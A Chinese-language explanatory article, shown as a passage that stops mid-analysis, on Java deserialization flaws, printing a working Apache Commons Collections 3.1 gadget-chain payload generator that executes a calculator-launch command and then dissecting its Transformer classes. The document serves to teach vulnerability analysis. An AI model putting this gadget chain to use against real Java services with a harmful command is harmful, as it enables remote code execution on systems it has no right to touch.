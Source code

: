 ### 反序列化漏洞成因
序列化和反序列化本身并不存在问题。但当反序列化的数据可以被恶意攻击者控制时，那么攻击者可以通过构造恶意输入，让反序列化产生非预期的对象，在此过程中执行构造的恶意代码。

上述这里特别要注意的是非预期的对象，由于要构造特定对象的前提是清楚该对象各属性及反序列化后参数进行各流程造成非预期的恶意操作。所以如Apache Commons Collections等开源的第三方库就成为了反序列化漏洞利用的关键。这些类库中实现的一些类可以被反序列化，并可被用来实现任意代码执行。类似的第三方类库可以看ysoserial，如commons-fileupload、commons-io等。这种库的存在极大地提升了反序列化问题的严重程度。

### 漏洞利用
#### 利用Apache Commons Collections实现远程代码执行

以commons-collections:3.1库为例(jdk版本为1.7)，反序列化漏洞利用payload生产代码如下:

```
		......
	    //创建一个包含对象进行反序列化信息的”objectexp”数据文件
        FileOutputStream fos = new FileOutputStream("/Users/jingke/java/sofademo/objectexp");
        ObjectOutputStream os = new ObjectOutputStream(fos);
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class }, new Object[] { "open /Applications/Calculator.app" }) };
        Transformer transformerChain = new ChainedTransformer(transformers);

        Map innermap = new HashMap();
        innermap.put("value", "value");
        Map outmap = TransformedMap.decorate(innermap, null, transformerChain);
        //通过反射获得AnnotationInvocationHandler类对象
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        //通过反射获得cls的构造函数
        Constructor ctor = cls.getDeclaredConstructor(Class.class, Map.class);
        //这里需要设置Accessible为true，否则序列化失败
        ctor.setAccessible(true);
        //通过newInstance()方法实例化对象
        Object myObj = ctor.newInstance(Retention.class, outmap);
        //writeObject()方法将myObj对象写入object文件
        os.writeObject(myObj);
        os.close();
```

从逆向的角度出发，先分析这个payload，代码中先定义了一个 Transformer的数组transformers，第一个参数是ConstantTransformer类对象，后续均为 InvokerTransformer 对象，然后调用ChainedTransformer将多个Transformer串联构造出Transformer对象。ConstantTransformer、InvokerTransformer、ChainedTransformer均实现了的Transformer的transform方法，首先看Transforme接口，该接口仅实现了一个方法transform：

```
public Object transform(Object input);
```
可以看到该方法的作用是：给定一个 Object 对象经过转换后也返回一个 Object。

ConstantTransformer 类的 transform() 方法：
